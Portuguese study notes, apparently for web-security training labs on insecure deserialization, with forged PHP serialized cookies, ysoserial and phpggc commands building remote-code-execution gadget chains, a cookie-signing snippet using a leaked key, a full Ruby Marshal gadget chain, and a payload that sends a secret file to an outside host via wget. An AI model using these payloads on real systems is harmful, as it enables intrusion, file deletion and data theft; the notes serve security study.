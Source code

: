 # Deserialização Insegura

A extensão Java Deserialization Sacanner pode ser bem útil para identificar e montar payloads quando a vulnerabilidade é em Java.

Para Java também pode gerar o exploit com o [ysoserial](https://github.com/frohoff/ysoserial) e para PHP com o [phpggc](https://github.com/ambionics/phpggc).

<br>

## Laboratórios

**Using Application Functionality to Exploit Insecure Deserialization**

Delete o usuário adicional para estudar as requisições.

Na request `POST /my-account/delete`, altere o cookie serializado para:
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"upjgj8nlrqjsi09uqh41pflrceoig0lx";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

<br>
<br>

**Arbitrary Object Injection in PHP**

Encontre o arquivo `/libs/CustomTemplate.php~` e perceba o método `destruct()`.

Envie o seguinte cookie:
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

<br>
<br>

**Exploiting Java Deserialization with Apache Commons**

Utilize o scan do Burp para identificar que o objeto serializado é um Java Commons.

Use o ysoserial para gerar o payload:
```
java \
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED\
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED\
 --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED\
 -jar ./ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

> [!NOTE]  
> Às vezes o número da CommonsCollections não funciona na aplicação alvo e você precisa testar outras versçoes. Também lembre de encodar o cookie em URL.

<br>
<br>

**Exploiting PHP Deserialization with a Pre-Built Gadget Chain**

1. Enumere o arquivo `phpinfo.php` que pode ser encontrado no código-fonte.
2. Encontre a versão do framework Symfony ao enviar um cookie inválido.
3. Salve a chave secreta encontrada no arquivo `/cgi-bin/phpinfo.php`.
4. Crie o payload com o phpgcc:
```
docker run phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```
5. Agora precisamos construir um cookie válido contendo o payload malicooso e assiná-lo com a chave obtida.
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "n7w5ixp4wm3euh1iic9phxh1c1d1womh";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

<br>

Versão adaptada:
```
docker run phpggc Symfony/RCE4 exec 'wget http://OASTIFY.COM --post-file=/home/carlos/secret' | base64 -w 0
```

<br>
<br>

Exploiting Ruby Deserialization Using a Documented Gadget Chain

Use o scan do burp para identificar que o objeto serializado é Ruby utilizando Marshal.

Copie o payload [desse artigo](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) e substitua as duas últimas linhas para que o código gere o payload necessário.
```
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

<br>

Você pode usar esse comando para remover espaços em brancos do payload:
```
echo -n PAYLOAD | tr -d "\r\n"
```
